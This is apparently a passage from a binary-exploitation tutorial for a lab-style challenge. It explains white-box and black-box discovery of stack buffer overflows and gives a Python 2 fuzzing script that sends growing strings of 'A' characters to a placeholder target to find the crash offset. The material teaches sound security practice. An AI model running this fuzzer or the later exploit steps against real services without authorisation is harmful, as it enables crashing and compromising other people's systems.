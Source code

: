 In a White Box approach you'd analyze the binary (or the source code) for functions you know are vulnerable to stack buffer overflows.

In a Black Box approach you feed normal input to the application and see the application behaviour, and then feed it an extremely long input and see if the application crashes.

If it crashes with a really long input, and we know it's a binary running, there's a good chance there's a Buffer Overflow there.

> If your binary is running locally it may error out with a Segmentation Fault.<br>
This has become so common that some challenge creators have been known to print "Segmentation Fault" in an application just to create rabbit holes.<br>
Trust your debugger.

In our example we already know it's vulnerable. We'll feed it a long string of A characters and see it fail.

![BOF behavior with normal input vs a long string](/images/binexp-corner-1/bof1.png)

Here we see that the application first responds normally to a test string, and then hangs when we feed it a large payload.

So, we know this is vulnerable, and we want to attack it. We could do it all by hand, but it's probably a good idea to create a small script to do this for us, that way we don't have to deal with handling all the input by hand and messing up something and spending hours trying to understand why it didn't work. 

We will use Python 2.7 to develop our script for the simple fact that we will not have to deal with encodings in our script implementation. Python3 is fine, just make sure you encode everything correctly. That's outside the scope of this Tutorial, but feel free to play with it.

Our first step is create a script that will increment our payload until it crashes. This will give us an approximation of where the offset to the return address.

```python
import socket, time, sys

ip = "<target-ip>"
port = 1337
timeout = 20

fuzzString = ''
increment = 100

while len(fuzzString) < 3000:
    fuzzString += ('A'*increment)
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(fuzzString))
        s.send("OVERFLOW4 " + fuzzString + "\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```
